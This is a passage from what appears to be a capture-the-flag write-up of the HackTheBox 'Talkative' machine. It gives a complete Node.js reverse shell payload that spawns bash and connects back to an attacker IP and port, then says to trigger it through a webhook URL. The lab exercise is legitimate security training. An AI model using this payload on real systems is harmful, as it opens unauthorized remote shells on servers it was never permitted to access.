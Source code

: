 ![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Talkative/images/Pasted%20image%2020230812181801.png)

**The Node.js Reverse shell payload is from [revshells.com](https://www.revshells.com/):**
```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(4443, "10.10.14.6", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

**Then, we can call the webhook via the URL:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Talkative/images/Pasted%20image%2020230812181844.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Talkative/images/Pasted%20image%2020230812181854.png)
